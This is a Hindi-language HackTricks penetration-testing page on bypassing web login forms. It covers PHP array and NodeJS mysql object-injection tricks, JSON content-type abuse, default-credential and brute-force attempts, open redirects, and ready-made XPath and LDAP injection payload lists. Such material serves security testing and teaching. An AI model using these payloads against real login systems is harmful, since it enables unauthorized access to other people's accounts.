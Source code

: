 # लॉगिन बायपास

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ हैकट्रिक्स क्लाउड ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 ट्विटर 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ ट्विच 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 यूट्यूब 🎥</strong></a></summary>

* क्या आप **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी **कंपनी का हैकट्रिक्स में विज्ञापन देखना चाहते हैं**? या क्या आप **PEASS के नवीनतम संस्करण या हैकट्रिक्स को पीडीएफ में डाउनलोड करना चाहते हैं**? [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) की जाँच करें!
* [**द पीएस फैमिली**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**एनएफटी**](https://opensea.io/collection/the-peass-family) संग्रह।
* [**आधिकारिक पीएस और हैकट्रिक्स स्वैग**](https://peass.creator-spring.com) प्राप्त करें।
* **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में या **मुझे** **ट्विटर** **🐦**[**@carlospolopm**](https://twitter.com/hacktricks_live)** का** **अनुसरण** **करें**।
* **हैकिंग ट्रिक्स साझा करें** द्वारा [हैकट्रिक्स रेपो](https://github.com/carlospolop/hacktricks) और [हैकट्रिक्स-क्लाउड रेपो](https://github.com/carlospolop/hacktricks-cloud) में पीआर जमा करके।

</details>

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

[**RootedCON**](https://www.rootedcon.com/) **स्पेन** में सबसे महत्वपूर्ण साइबर सुरक्षा घटना है और यूरोप में सबसे महत्वपूर्ण में से एक है। **तकनीकी ज्ञान को बढ़ावा देने** के मिशन के साथ, यह कांग्रेस प्रौद्योगिकी और साइबर सुरक्षा विशेषज्ञों के लिए एक उफान मिलने का समारोह है।

{% embed url="https://www.rootedcon.com/" %}

## **नियमित लॉगिन बायपास**

यदि आप एक लॉगिन पृष्ठ पाते हैं, तो यहाँ आप कुछ तकनीक पाएंगे जिन्हें बायपास करने की कोशिश कर सकते हैं:

* पृष्ठ के अंदर **टिप्पणियाँ** की जाँच करें (नीचे और दाएं जाएं?)
* देखें कि क्या आप **प्रतिबंधित पृष्ठों तक सीधे पहुंच सकते हैं**
* **पैरामीटर न भेजें** (केवल 1 न भेजें या कोई भी न भेजें)
* **PHP तुलना त्रुटि जांचें:** `user[]=a&pwd=b` , `user=a&pwd[]=b` , `user[]=a&pwd[]=b`
* **कंटेंट प्रकार को json में बदलें** और json मान भेजें (bool true समाविष्ट)
* यदि आपको एक प्रतिक्रिया मिलती है जो कहती है कि POST समर्थित नहीं है तो आप `Content-Type: application/json` के साथ GET अनुरोध के साथ **शरीर में JSON भेजने की कोशिश कर सकते हैं**
* नोडजेएस की संभावित पार्सिंग त्रुटि की जांच करें (इसे पढ़ें [**यह**](https://flattsecurity.medium.com/finding-an-unseen-sql-injection-by-bypassing-escape-functions-in-mysqljs-mysql-90b27f6542b4)): `password[password]=1`
* नोडजेएस उस payload को एक क्वेरी में बदल देगा जो निम्नलिखित के समान होगी: ` SELECT id, username, left(password, 8) AS snipped_password, email FROM accounts WHERE username='admin' AND`` `` `**`password=password=1`**`;` जिससे पासवर्ड बिट हमेशा सच हो जाएगा।
* यदि आप एक JSON ऑब्जेक्ट भेज सकते हैं तो आप लॉगिन को बायपास करने के लिए `"password":{"password": 1}` भेज सकते हैं।
* ध्यान रखें कि इस लॉगिन को बायपास करने के लिए आपको अब भी **एक मान्य उपयोगकर्ता का पता करना और भेजना** होगा।
* `mysql.createConnection` को बुलाते समय **"stringifyObjects":true** विकल्प जोड़ना आखिरकार सभी अप्रत्याशित व्यवहारों को ब्लॉक कर देगा जब `Object` पैरामीटर में पास किया जाएगा।
* क्रेडेंशियल्स की जांच करें:
* उपयोग की गई प्रौद्योगिकी/प्लेटफ़ॉर्म के [**डिफ़ॉल्ट क्रेडेंशियल्स**](../../generic-methodologies-and-resources/brute-force.md#default-credentials)
* **सामान्य कॉम्बिनेशन** (रूट, एडमिन, पासवर्ड, तकनीक का नाम, इनमें से किसी एक के साथ डिफ़ॉल्ट उपयोगकर्ता).
* **Cewl** का उपयोग करके एक शब्दकोश बनाएं, **डिफ़ॉल्ट** उपयोगकर्ता नाम और पासवर्ड जोड़ें (यदि है) और सभी शब्दों का उपयोग करके उपयोगकर्ता नाम और पासवर्ड के रूप में ब्रूट-फोर्स करने की कोशिश करें
* **बड़े शब्दकोश का उपयोग करके ब्रूट-फोर्स** करें ([**ब्रूट फोर्स**](../../generic-methodologies-and-resources/brute-force.md#http-post-form)**)**

### SQL Injection प्रमाणीकरण बायपास

[यहाँ आप **SQL इंजेक्शन** के माध्यम से लॉगिन को बायपास करने के कई तरीके पाएंगे](../sql-injection/#authentication-bypass)।

निम्नलिखित पृष्ठ पर आप एक **कस्टम सूची पाएंगे जिसे आप लॉगिन को बायपास करने की कोशिश करने के लिए प्रयास कर सकते हैं** SQL इंजेक्शन के माध्यम से:

{% content-ref url="sql-login-bypass.md" %}
[sql-login-bypass.md](sql-login-bypass.md)
{% endcontent-ref %}

### No SQL Injection प्रमाणीकरण बायपास

[यहाँ आप **No SQL इंजेक्शन** के माध्यम से लॉगिन को बायपास करने के कई तरीके पाएंगे](../nosql-injection.md#basic-authentication-bypass)**।**

क्योंकि NoSQL इंजेक्शन को पैरामीटर मान को बदलने की आवश्यकता होती है, आपको उन्हें मैन्युअल रूप से टेस्ट करने की आवश्यकता होगी।

### XPath Injection प्रमाणीकरण बायपास

[यहाँ आप **XPath इंजेक्शन** के माध्यम से लॉगिन को बायपास करने के कई तरीके पाएंगे](../xpath-injection.md#authentication-bypass)।
```
' or '1'='1
' or ''='
' or 1]%00
' or /* or '
' or "a" or '
' or 1 or '
' or true() or '
'or string-length(name(.))<10 or'
'or contains(name,'adm') or'
'or contains(.,'adm') or'
'or position()=2 or'
admin' or '
admin' or '1'='2
```
### LDAP Injection प्रमाणीकरण बायपास

[यहाँ आप कई तरह के ट्रिक्स पा सकते हैं जिनका उपयोग करके **LDAP Injection** के माध्यम से लॉगिन को बायपास किया जा सकता है।](../ldap-injection.md#login-bypass)
```
*
*)(&
*)(|(&
pwd)
*)(|(*
*))%00
admin)(&)
pwd
admin)(!(&(|
pwd))
admin))(|(|
```
### याद रखें

अगर पेज में "**याद रखें**" की कार्यक्षमता है तो देखें कि यह कैसे लागू किया गया है और क्या आप इसका दुरुपयोग करके **अन्य खातों को अधिकार में ले** सकते हैं।

### रीडायरेक्ट

पेज आम तौर पर लॉगिन के बाद उपयोगकर्ताओं को रीडायरेक्ट करते हैं, देखें कि क्या आप उस रीडायरेक्ट को बदलकर [**ओपन रीडायरेक्ट**](../open-redirect.md) का कारण बना सकते हैं। शायद आप कुछ जानकारी (कोड, कुकीज...) चुरा सकते हैं अगर आप उपयोगकर्ता को अपनी वेबसाइट पर रीडायरेक्ट करते हैं।

## अन्य जांचें

* जांचें कि क्या आप लॉगिन कार्यक्षमता का दुरुपयोग करके **उपयोगकर्ता नामों की गणना** कर सकते हैं।
* जांचें कि क्या **ऑटो-पूर्ण** पासवर्ड/**संवेदनशील** जानकारी **फॉर्म** में सक्रिय है **इनपुट:** `<input autocomplete="false"`
